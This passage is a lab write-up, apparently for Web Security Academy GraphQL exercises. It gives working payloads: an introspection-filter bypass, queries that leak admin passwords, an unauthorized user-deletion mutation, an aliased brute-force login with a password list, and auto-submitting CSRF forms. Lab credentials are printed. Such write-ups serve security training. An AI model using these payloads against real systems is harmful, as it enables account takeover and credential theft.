Referer: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net/post?postId=2
Content-Type: application/json
Content-Length: 249
Origin: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers



{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":2}}
```


find introspection

simple one to check

<img width="1524" height="476" alt="image" src="https://github.com/user-attachments/assets/403cf877-4073-4ec6-becb-c926c3b227a0" />


> Don't forget to convert form ``graphql`` to ``json`` 

[From_graphql_2_json](https://datafetcher.com/graphql-json-body-converter)

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

<img width="1570" height="723" alt="image" src="https://github.com/user-attachments/assets/3104cd2c-b626-4eae-9ff3-f741a7135f57" />


> ### put output to visulizer

[graphql_visulaize3r](http://nathanrandal.com/graphql-visualizer/)


<img width="848" height="657" alt="image" src="https://github.com/user-attachments/assets/40ebcb57-fe05-4ba5-906c-31ec3f82fb39" />


Try to read content of ``postPassword`` of all posts

```graphql
query {
  getAllBlogPosts {
    id
    title
    postPassword
  }
}
```

but if you notice that there ar id form ``1`` to ``5`` exept **``3``** this might be it's ``isPrivate: Boolean!`` is true

<img width="1527" height="622" alt="image" src="https://github.com/user-attachments/assets/6546c0c4-2f1a-4cac-990c-05e145d21c22" />

so if i use the first query and try to see password 

```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n     postPassword\n   }\n    }","operationName":"getBlogPost","variables":{"id":3

}}
```

<img width="1544" height="651" alt="image" src="https://github.com/user-attachments/assets/e689a70d-8315-4412-9c87-b8d5aa85efd6" />


found the password

```

```

  
</details>









<details>
  <summary>Lab: Accidental exposure of private GraphQL fields</summary>


### > The user management functions for this lab are powered by a GraphQL endpoint. The lab contains an access control vulnerability whereby you can induce the API to reveal user credential fields.

> To solve the lab, sign in as the administrator and delete the username ``carlos``. 

---

find this request 

<img width="1211" height="602" alt="image" src="https://github.com/user-attachments/assets/ce5ced22-73f4-416f-835a-effedd00e716" />

``Introspection Query``

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

``Introspection Result``

<img width="1540" height="640" alt="image" src="https://github.com/user-attachments/assets/07d67e10-15c5-4b3a-95a9-5a60b4b257f7" />

<img width="843" height="720" alt="image" src="https://github.com/user-attachments/assets/acca9c26-a639-4f12-8c97-1b4b5edcd8de" />

now try to use ``getUser(id:Int!): User`` to find **``administrator``** user


```graphql
{
  getUser(id: 1) {
    id
    username
    password
  }
}

```

<img width="1316" height="367" alt="image" src="https://github.com/user-attachments/assets/e932fd39-cead-4b3d-9c44-3ae3474b1329" />


```
administrator : lnqajgkwlru628r4sgjc
```

<img width="1330" height="486" alt="image" src="https://github.com/user-attachments/assets/4ed941d2-305e-4e47-8b02-58d16d623fb2" />

<img width="1290" height="268" alt="image" src="https://github.com/user-attachments/assets/89d700e2-75c7-4ab1-8c53-441c2c82b3fe" />


  
</details>





<details>
  <summary>Lab: Finding a hidden GraphQL endpoint</summary>


###>  The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

> To solve the lab, find the hidden endpoint and delete ``carlos``. 

----


first test common ``graphql`` endpoints

<img width="557" height="460" alt="image" src="https://github.com/user-attachments/assets/3172e313-20bc-4226-9b04-920f1893b50a" />

all responses ``404`` except one ``405`` but say ``method not allowed``

<img width="954" height="241" alt="image" src="https://github.com/user-attachments/assets/3faecc2c-88fb-4074-926b-c76228eed772" />

it seem that it allow **``GET``** method

<img width="919" height="572" alt="image" src="https://github.com/user-attachments/assets/8a3a78bc-2a86-437e-a9c5-af9d7c275a0f" />

now **``qurey not present``**

<img width="1534" height="447" alt="image" src="https://github.com/user-attachments/assets/d77a13d6-bb67-4ee9-8539-4d1d96de0408" />

first put this header in request 

```http
Content-Type: application/json;
```

and try to add simple qurey to see what will be the result

```json
{
  "query": "query{__typename}"
}
```

and booom 

<img width="1534" height="441" alt="image" src="https://github.com/user-attachments/assets/ee8a6f2c-bc06-4909-99aa-cf48313978ef" />

now try to write introspction simple query :

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

response say ``introspection not allowed`` it seems there is filteration on it 

<img width="1542" height="449" alt="image" src="https://github.com/user-attachments/assets/9c22e8d9-09b0-4ac3-9ce2-6471385de770" />

try to pypass it by using **``\n``**:

```json
{
  "query": "{__schema\n{queryType{name}}}"
}

                      |
```
and it work 🔥

<img width="1317" height="438" alt="image" src="https://github.com/user-attachments/assets/1dfa68f6-e45c-4d8e-8671-8b69a4dee4e9" />


now use full ``introspection`` qurey 

```json
{
  "query": " query IntrospectionQuery { __schema\n { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}

```

<img width="1549" height="705" alt="image" src="https://github.com/user-attachments/assets/e453946c-1581-408f-9545-f8e30d78be1e" />

 ### > use [Introspection Visualization](http://nathanrandal.com/graphql-visualizer/)

<img width="1874" height="580" alt="image" src="https://github.com/user-attachments/assets/02b0bd11-6c73-450d-8307-f4c6419c645c" />

now get users

```json
{
  "query": "{ getUser(id: 1) { id username }}"
}
```

<img width="1402" height="472" alt="image" src="https://github.com/user-attachments/assets/eb842d5b-c4fe-41d7-bd12-fbb7a525e6ea" />

```
id   user
1     adminstrator
2     wiener
3     carlos
```

in ``schema`` foud this ``DeleteOrganizationUserInput``

<img width="771" height="603" alt="image" src="https://github.com/user-attachments/assets/ce921faf-ca9f-48b8-9711-e13caa58d0a1" />

download **`inql`** extension to burp and take the json respose of **``introspection``** to it to see the ``mutaion`` 

<img width="1264" height="447" alt="image" src="https://github.com/user-attachments/assets/74c533cd-2e73-462b-8834-cad3cba39347" />

or use this simple query :

```json
{
  "query": "{ __schema\n { mutationType { name fields { name args { name type { name kind } } } } }}"
}
```

<img width="1441" height="467" alt="image" src="https://github.com/user-attachments/assets/d1eee12e-d58d-4b96-b6a9-3458cabccbbd" />


good now we know that there is **``mutaion``** call **``DeleteOrganizationUserInput``** 

### > Discover the fields inside ``DeleteOrganizationUserInput``

```json
{
  "query": "{ __type(name: \"DeleteOrganizationUserInput\")\n { name kind inputFields { name type { name kind ofType { name kind } } } }}"
}
```

``output``

<img width="1532" height="519" alt="image" src="https://github.com/user-attachments/assets/049c1775-e902-48d6-9e24-17d9dd7c968a" />


so it require the **``id``**

```json
{
  "query": "mutation { deleteOrganizationUser(input: { id: 3 }) { __typename }}"
}
```

<img width="1226" height="399" alt="image" src="https://github.com/user-attachments/assets/555e0324-a75a-4979-a877-078504f1bfa8" />




  
</details>





<details>
  <summary>Lab: Bypassing GraphQL brute force protections</summary>


- <details>
     <summary>Tip</summary>
  
  <img width="1086" height="471" alt="image" src="https://github.com/user-attachments/assets/9aaf76d7-99e0-47c5-995f-90ddd91d2908" />
  
  ```javascript
  
  copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
  bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
          token
          success
      }
  `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
  ```
  
  <img width="1314" height="725" alt="image" src="https://github.com/user-attachments/assets/fa809ec6-fc31-4f69-ab17-59c287b0afbd" />
  

  -----
  
  ### change it form this :
  
  <img width="1439" height="783" alt="image" src="https://github.com/user-attachments/assets/5299c3b2-8225-4368-9faa-e31770bd3fdb" />
  
  ```graphql
  mutation login($input: LoginInput!) {
          login(input: $input) {
              token
              success
          }
      }
  ```
  
  ### to this
  
  
  
  ```graphql
  mutation login {
          
      }
  ```
  
  ### and inside it put the output of the js script
  
  
  ```json
  
  bruteforce64:login(input:{password: "555555", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce66:login(input:{password: "131313", username: "carlos"}) {
          token
          success
      }
  
  
  
  ```
  
  
  ### result 
  
  
  ```
  mutation login{
  
  bruteforce64:login(input:{password: "555555", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce66:login(input:{password: "131313", username: "carlos"}) {
          token
          success
      }
  
  
  
  }
  ```
  
  


  </details>


```json

{
    "query": "mutation bruteForce {\n    try1: login(input: {username: \"carlos\", password: \"123456\"}) { token success }\n    try2: login(input: {username: \"carlos\", password: \"password\"}) { token success }\n    try3: login(input: {username: \"carlos\", password: \"12345678\"}) { token success }\n    try4: login(input: {username: \"carlos\", password: \"qwerty\"}) { token success }\n    try5: login(input: {username: \"carlos\", password: \"123456789\"}) { token success }\n    try6: login(input: {username: \"carlos\", password: \"12345\"}) { token success }\n    try7: login(input: {username: \"carlos\", password: \"1234\"}) { token success }\n    try8: login(input: {username: \"carlos\", password: \"111111\"}) { token success }\n    try9: login(input: {username: \"carlos\", password: \"1234567\"}) { token success }\n    try10: login(input: {username: \"carlos\", password: \"dragon\"}) { token success }\n    try11: login(input: {username: \"carlos\", password: \"123123\"}) { token success }\n    try12: login(input: {username: \"carlos\", password: \"baseball\"}) { token success }\n    try13: login(input: {username: \"carlos\", password: \"abc123\"}) { token success }\n    try14: login(input: {username: \"carlos\", password: \"football\"}) { token success }\n    try15: login(input: {username: \"carlos\", password: \"monkey\"}) { token success }\n    try16: login(input: {username: \"carlos\", password: \"letmein\"}) { token success }\n    try17: login(input: {username: \"carlos\", password: \"shadow\"}) { token success }\n    try18: login(input: {username: \"carlos\", password: \"master\"}) { token success }\n    try19: login(input: {username: \"carlos\", password: \"666666\"}) { token success }\n    try20: login(input: {username: \"carlos\", password: \"qwertyuiop\"}) { token success }\n    try21: login(input: {username: \"carlos\", password: \"123321\"}) { token success }\n    try22: login(input: {username: \"carlos\", password: \"mustang\"}) { token success }\n    try23: login(input: {username: \"carlos\", password: \"1234567890\"}) { token success }\n    try24: login(input: {username: \"carlos\", password: \"michael\"}) { token success }\n    try25: login(input: {username: \"carlos\", password: \"654321\"}) { token success }\n    try26: login(input: {username: \"carlos\", password: \"superman\"}) { token success }\n    try27: login(input: {username: \"carlos\", password: \"1qaz2wsx\"}) { token success }\n    try28: login(input: {username: \"carlos\", password: \"7777777\"}) { token success }\n    try29: login(input: {username: \"carlos\", password: \"121212\"}) { token success }\n    try30: login(input: {username: \"carlos\", password: \"000000\"}) { token success }\n    try31: login(input: {username: \"carlos\", password: \"qazwsx\"}) { token success }\n    try32: login(input: {username: \"carlos\", password: \"123qwe\"}) { token success }\n    try33: login(input: {username: \"carlos\", password: \"killer\"}) { token success }\n    try34: login(input: {username: \"carlos\", password: \"trustno1\"}) { token success }\n    try35: login(input: {username: \"carlos\", password: \"jordan\"}) { token success }\n    try36: login(input: {username: \"carlos\", password: \"jennifer\"}) { token success }\n    try37: login(input: {username: \"carlos\", password: \"zxcvbnm\"}) { token success }\n    try38: login(input: {username: \"carlos\", password: \"asdfgh\"}) { token success }\n    try39: login(input: {username: \"carlos\", password: \"hunter\"}) { token success }\n    try40: login(input: {username: \"carlos\", password: \"buster\"}) { token success }\n    try41: login(input: {username: \"carlos\", password: \"soccer\"}) { token success }\n    try42: login(input: {username: \"carlos\", password: \"harley\"}) { token success }\n    try43: login(input: {username: \"carlos\", password: \"batman\"}) { token success }\n    try44: login(input: {username: \"carlos\", password: \"andrew\"}) { token success }\n    try45: login(input: {username: \"carlos\", password: \"tigger\"}) { token success }\n    try46: login(input: {username: \"carlos\", password: \"sunshine\"}) { token success }\n    try47: login(input: {username: \"carlos\", password: \"iloveyou\"}) { token success }\n    try48: login(input: {username: \"carlos\", password: \"2000\"}) { token success }\n    try49: login(input: {username: \"carlos\", password: \"charlie\"}) { token success }\n    try50: login(input: {username: \"carlos\", password: \"robert\"}) { token success }\n    try51: login(input: {username: \"carlos\", password: \"thomas\"}) { token success }\n    try52: login(input: {username: \"carlos\", password: \"hockey\"}) { token success }\n    try53: login(input: {username: \"carlos\", password: \"ranger\"}) { token success }\n    try54: login(input: {username: \"carlos\", password: \"daniel\"}) { token success }\n    try55: login(input: {username: \"carlos\", password: \"starwars\"}) { token success }\n    try56: login(input: {username: \"carlos\", password: \"klaster\"}) { token success }\n    try57: login(input: {username: \"carlos\", password: \"112233\"}) { token success }\n    try58: login(input: {username: \"carlos\", password: \"george\"}) { token success }\n    try59: login(input: {username: \"carlos\", password: \"computer\"}) { token success }\n    try60: login(input: {username: \"carlos\", password: \"michelle\"}) { token success }\n    try61: login(input: {username: \"carlos\", password: \"jessica\"}) { token success }\n    try62: login(input: {username: \"carlos\", password: \"pepper\"}) { token success }\n    try63: login(input: {username: \"carlos\", password: \"1111\"}) { token success }\n    try64: login(input: {username: \"carlos\", password: \"zxcvbn\"}) { token success }\n    try65: login(input: {username: \"carlos\", password: \"555555\"}) { token success }\n    try66: login(input: {username: \"carlos\", password: \"11111111\"}) { token success }\n    try67: login(input: {username: \"carlos\", password: \"131313\"}) { token success }\n    try68: login(input: {username: \"carlos\", password: \"freedom\"}) { token success }\n    try69: login(input: {username: \"carlos\", password: \"777777\"}) { token success }\n    try70: login(input: {username: \"carlos\", password: \"pass\"}) { token success }\n    try71: login(input: {username: \"carlos\", password: \"maggie\"}) { token success }\n    try72: login(input: {username: \"carlos\", password: \"159753\"}) { token success }\n    try73: login(input: {username: \"carlos\", password: \"aaaaaa\"}) { token success }\n    try74: login(input: {username: \"carlos\", password: \"ginger\"}) { token success }\n    try75: login(input: {username: \"carlos\", password: \"princess\"}) { token success }\n    try76: login(input: {username: \"carlos\", password: \"joshua\"}) { token success }\n    try77: login(input: {username: \"carlos\", password: \"cheese\"}) { token success }\n    try78: login(input: {username: \"carlos\", password: \"amanda\"}) { token success }\n    try79: login(input: {username: \"carlos\", password: \"summer\"}) { token success }\n    try80: login(input: {username: \"carlos\", password: \"love\"}) { token success }\n    try81: login(input: {username: \"carlos\", password: \"ashley\"}) { token success }\n    try82: login(input: {username: \"carlos\", password: \"nicole\"}) { token success }\n    try83: login(input: {username: \"carlos\", password: \"chelsea\"}) { token success }\n    try84: login(input: {username: \"carlos\", password: \"biteme\"}) { token success }\n    try85: login(input: {username: \"carlos\", password: \"matthew\"}) { token success }\n    try86: login(input: {username: \"carlos\", password: \"access\"}) { token success }\n    try87: login(input: {username: \"carlos\", password: \"yankees\"}) { token success }\n    try88: login(input: {username: \"carlos\", password: \"987654321\"}) { token success }\n    try89: login(input: {username: \"carlos\", password: \"dallas\"}) { token success }\n    try90: login(input: {username: \"carlos\", password: \"austin\"}) { token success }\n    try91: login(input: {username: \"carlos\", password: \"thunder\"}) { token success }\n    try92: login(input: {username: \"carlos\", password: \"taylor\"}) { token success }\n    try93: login(input: {username: \"carlos\", password: \"matrix\"}) { token success }\n    try94: login(input: {username: \"carlos\", password: \"mobilemail\"}) { token success }\n    try95: login(input: {username: \"carlos\", password: \"mom\"}) { token success }\n    try96: login(input: {username: \"carlos\", password: \"monitor\"}) { token success }\n    try97: login(input: {username: \"carlos\", password: \"monitoring\"}) { token success }\n    try98: login(input: {username: \"carlos\", password: \"montana\"}) { token success }\n    try99: login(input: {username: \"carlos\", password: \"moon\"}) { token success }\n    try100: login(input: {username: \"carlos\", password: \"moscow\"}) { token success }\n}",
    "operationName": "bruteForce",
    "variables": {}
}

```


<img width="1436" height="738" alt="image" src="https://github.com/user-attachments/assets/d63785c5-a954-4634-8abc-acce52530286" />

password 

```
123123
```

Token

```
Vuw96J2kIh6BrKRrjlwhb8tQ96AViUTI
```

  
</details>






<details>
  <summary>Lab: Performing CSRF exploits over GraphQL</summary>


### on change email query change content-type and the qurey

- **`Content-Type: application/x-www-form-urlencoded`**
- **`query=
mutation%20changeEmail($input:ChangeEmailInput!){changeEmail(input:$input){email}}&operationName=changeEmail&
variables=
{"input":{"email":"admin@hack.com"}}`**


### `from`

```json
{
   "query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"hacker@example.com"}}}
```

### `to`

```
query=
mutation%20changeEmail($input:ChangeEmailInput!){changeEmail(input:$input){email}}&operationName=changeEmail&
variables=
{"input":{"email":"admin@hack.com"}}
```

<img width="1415" height="741" alt="image" src="https://github.com/user-attachments/assets/0d6cfd04-f4dc-4192-ae09-58c7712afd73" />

### genrate the **`csrf poc`**

<details>
  <summary>using burp</summary>

<img width="1017" height="620" alt="image" src="https://github.com/user-attachments/assets/3a4a4106-aea8-481e-b7fb-2b9640d5ed16" />

<img width="1491" height="780" alt="image" src="https://github.com/user-attachments/assets/dffebd4f-9b41-4e59-96d1-e934b95992fc" />

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a80004b048189de80a17651001300cc.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="" />
      <input type="hidden" name="mutation&#32;changeEmail&#40;&#36;input&#58;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#36;input&#41;&#123;email&#125;&#125;" value="" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="" />
      <input type="hidden" name="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;admin&#64;hack&#46;com&quot;&#125;&#125;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>


```

  
</details>


<details>
  <summary>manually</summary>

- **`query`**
- **`operation name`**
- **`variables`**


```html
<html>
  <form action="https://0a0100fa0341e05c80d79e050063001b.web-security-academy.net/graphql/v1" method="POST">
     <input type="hidden" name="query" value="">
     <input type="hidden" name="operationName" value="">
     <input type="hidden" name="variables" value="">
  </form>
  <script>
    document.forms[0].submit();
  </script>
</html>
```

## now putting it's values 


```html
<html>
  <body>
    <form action="https://0a0100fa0341e05c80d79e050063001b.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation changeEmail($input:ChangeEmailInput!){changeEmail(input:$input){email}}">
      <input type="hidden" name="operationName" value="changeEmail">
      <input type="hidden" name="variables" value='{"input":{"email":"admin_csrf_poc@hack.com"}}'>
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

<img width="906" height="344" alt="image" src="https://github.com/user-attachments/assets/3b1f7aaf-5a8b-4014-87e5-49064e9649e2" />


<img width="1287" height="793" alt="image" src="https://github.com/user-attachments/assets/b8a9616a-3dc6-4618-8621-5eee35428ffb" />





<img width="1206" height="904" alt="image" src="https://github.com/user-attachments/assets/b0f6f281-5a50-462b-a390-5686be3a98ea" />

  
</details>




### store it and send it to victim

<img width="1517" height="501" alt="image" src="https://github.com/user-attachments/assets/5edac919-474c-4ff3-b548-0f2ccbbc414c" />











  
</details>





















